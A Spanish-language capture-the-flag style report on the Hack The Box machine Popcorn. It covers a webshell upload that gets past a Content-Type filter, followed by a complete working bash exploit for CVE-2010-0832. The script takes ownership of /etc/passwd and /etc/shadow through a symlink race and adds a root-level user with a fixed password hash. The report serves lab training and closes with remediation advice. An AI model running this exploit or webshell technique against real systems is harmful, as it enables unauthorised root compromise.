










# Informe Técnico de Seguridad Ofensiva: Popcorn


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Popcorn** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** Torrent Hoster File Upload (Content-Type Bypass)
* **Vector de Elevación de Privilegios:** PAM MOTD Local Root (CVE-2010-0832)
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Popcorn |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Linux |
| **Nivel de Dificultad** | Medium |
| **CVE(s) Involucrados** | CVE-2010-0832 |
| **Vector de Entrada** | Torrent Hoster File Upload (Content-Type Bypass) |
| **Mecanismo de Escalada** | PAM MOTD Local Root (CVE-2010-0832) |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: Torrent Hoster File Upload (Content-Type Bypass)
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: PAM MOTD Local Root (CVE-2010-0832)
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso

CVE(s): CVE-2010-0832
GTFOBins/Abusos (sudo/SUID): N/A
Initial Access Exploit (Ingreso): Torrent Hoster File Upload (Content-Type Bypass)

Privilege Escalation (Escalada): PAM MOTD Local Root (CVE-2010-0832)


| Campo | Detalle |
| --- | --- |
| Nombre | Popcorn |
| OS | Linux (Ubuntu 9.10) |
| Dificultad | Medium |
| CVE | CVE-2010-0832 |
| Acceso Inicial | Torrent Hoster File Upload (Content-Type Bypass) |
| Escalada | PAM MOTD Local Root (CVE-2010-0832) |

---

## Reconocimiento

El escaneo revela 2 puertos TCP abiertos: 22 (SSH) y 80 (HTTP Apache).



## Enumeracion

Mediante directory fuzzing se descubre `/torrent`, una aplicacion de **Torrent Hoster** que permite subir y compartir archivos torrent.



## Explotacion

La aplicacion filtra las subidas usando la cabecera **Content-Type**. Se sube un torrent valido y luego se modifica la imagen del screenshot, subiendo un archivo PHP malicioso interceptando la peticion con Burp Suite y cambiando el Content-Type a `image/png`.







Esto permite ejecutar comandos como **www-data** a traves del webshell PHP subido.



## Flags

### User Flag (george)



## Escalada de Privilegios

El sistema es Ubuntu 9.10, vulnerable a **CVE-2010-0832** (PAM MOTD local root). Esta vulnerabilidad permite a un usuario normal obtener ownership de archivos arbitrarios mediante un symlink race condition en el directorio `.cache` durante el login SSH. Se abusa de esto para obtener escritura en `/etc/passwd` y `/etc/shadow`, creando un usuario con UID 0 y obteniendo shell como root.



### Root Flag





> 
> 
> 
> ### 0) Arregla `authorized_keys` y permisos (como `www-data`)
> 
> ```bash
> bash
> CopiarEditar
> cd /var/www/.ssh
> # corrige nombre si lo rompiste sin querer
> [ -f authorized_keyssh ] && mv authorized_keyssh authorized_keys
> 
> # asegúrate de que exista y tenga la pública dentro
> [ -f authorized_keys ] || touch authorized_keys
> grep -F "$(cat hola.pub)" authorized_keys >/dev/null || cat hola.pub >> authorized_keys
> 
> # permisos estrictos
> chmod 700 /var/www/.ssh
> chmod 600 hola hola.pub authorized_keys
> chmod go-w /var/www
> 
> ```
> 
> Prueba que la clave entra (MUY importante especificar el usuario):
> 
> ```bash
> bash
> CopiarEditar
> ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null \
>     -o IdentitiesOnly=yes -i /var/www/.ssh/hola www-data@localhost true
> 
> ```
> 
> Si **pide password**, pasa a verbose:
> 
> ```bash
> bash
> CopiarEditar
> ssh -vvv -o IdentitiesOnly=yes -i /var/www/.ssh/hola www-data@localhost true
> 
> ```
> 
> (y pásame las líneas de `Offering public key` / `Authentication` si falla).
> 
> ---
> 
> ### 1) Reemplaza **TODO** tu `14339.sh` por esto
> 
> ```bash
> bash
> CopiarEditar
> #!/bin/bash
> # Ubuntu PAM MOTD local root (CVE-2010-0832) – versión usando clave existente
> 
> set -e
> 
> P='toor:x:0:0:root:/root:/bin/bash'
> S='toor:$6$tPuRrLW7$m0BvNoYS9FEF9/Lzv6PQospujOKt0giv.7JNGrCbWC1XdhmlbnTWLKyzHz.VZwCcEcYQU5q2DLX.cI7NQtsNz1:14798:0:99999:7:::'
> 
> echo "[*] Ubuntu PAM MOTD local root"
> 
> KEY="/var/www/.ssh/hola"
> 
> # prerequisitos básicos
> command -v ssh >/dev/null 2>&1 || { echo "[-] ssh requerido"; exit 1; }
> ps -u root | grep -q sshd || { echo "[-] sshd debe estar corriendo"; exit 1; }
> [ -r "$KEY" ] || { echo "[-] No puedo leer clave $KEY"; exit 1; }
> 
> backup() {
>     [ -e "$1" ] && [ -e "$1".bak ] && rm -rf "$1".bak
>     [ -e "$1" ] || return 0
>     mv "$1"{,.bak} || return 1
>     echo "[*] Backuped $1"
> }
> restore() {
>     [ -e "$1" ] && rm -rf "$1"
>     [ -e "$1".bak ] || return 0
>     mv "$1"{.bak,} || return 1
>     echo "[*] Restored $1"
> }
> own() {
>     [ -e ~/.cache ] && rm -rf ~/.cache
>     ln -s "$1" ~/.cache || return 1
>     echo "[*] spawn ssh"
>     ssh -o 'NoHostAuthenticationForLocalhost yes' \
>         -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null \
>         -o IdentitiesOnly=yes -i "$KEY" www-data@localhost true
>     [ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; exit 1; }
>     echo "[+] owned: $1"
> }
> 
> backup ~/.cache || { echo "[-] No pude hacer backup de ~/.cache"; exit 1; }
> own /etc/passwd && echo "$P" >> /etc/passwd
> own /etc/shadow && echo "$S" >> /etc/shadow
> restore ~/.cache || { echo "[-] No pude restaurar ~/.cache"; exit 1; }
> 
> echo "[+] Success! Usa password 'toor' para root (temporal)"
> su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
>   chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1 || true; bash" toor
> 
> ```
>

---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (CVE-2010-0832).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (Torrent Hoster File Upload (Content-Type Bypass)) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (PAM MOTD Local Root (CVE-2010-0832)) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
